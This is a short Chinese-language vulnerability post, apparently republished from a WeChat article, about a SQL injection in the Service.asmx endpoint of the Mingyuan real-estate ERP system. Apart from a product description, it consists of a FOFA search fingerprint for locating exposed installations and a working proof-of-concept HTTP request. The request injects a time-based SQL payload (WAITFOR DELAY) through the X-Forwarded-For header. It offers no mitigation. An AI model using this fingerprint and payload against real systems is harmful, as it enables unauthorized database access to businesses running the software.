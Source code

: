 #  明源地产ERP接口Service.asmx存在SQL注入漏洞  
某源地产ERP是一款专门为房地产行业设计的企业资源规划（ERP）系统，旨在帮助房地产企业实现全面的信息化管理，提高运营效率和管理水平。系统涵盖了项目管理、财务管理、供应链管理、客户关系管理（CRM）、人力资源管理等多个核心功能模块，通过整合企业的各个业务环节，实现信息的统一管理和高效协同。该系统在房地产行业具有高度的专业性和适用性，能够满足不同规模和类型企业的需求。适用于各种规模和类型的房地产企业，特别是需要进行项目管理和资金管理的企业。无论是大型企业还是中小企业，都可以从某源地产ERP系统中受益。例如，大型企业可以利用系统的全面性和集成性，实现复杂的业务流程管理和数据分析；而中小企业则可以根据自身需求，选择适合的功能模块，优化资源配置，提高运营效率。  

## fofa

```javascript
body="/_common/scripts/md5-min.js"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qQQRNkEo8NMwRQ021eRZBqBuKH0CuQ7uEILDKfLck9mxaJjR8m82DzflBlIciaUThm2oe1chjiaaSg/640?wx_fmt=png&from=appmsg "")  

## poc

```javascript
POST /Kfxt/Service.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
X-Forwarded-For: 127.0.0.1');WAITFOR DELAY '0:0:4'--
SOAPAction: "http://www.mysoft.com.cn/queryProjects"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <queryProjects xmlns="http://www.mysoft.com.cn/">
      <inpXML>&lt;xml&gt;&lt;buname&gt;abc&lt;/buname&gt;&lt;/xml&gt;</inpXML>
    </queryProjects>
  </soap:Body>
</soap:Envelope>
```

延时  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qQQRNkEo8NMwRQ021eRZBqtia5diaMouyFgIhPoUNLYEOxj9HXAjYV7XWuHACmMwG3xCQHvAczsGHQ/640?wx_fmt=png&from=appmsg "")  



## 漏洞来源

- https://mp.weixin.qq.com/s/iUv6iV71vh_6uBLZpyJX0Q
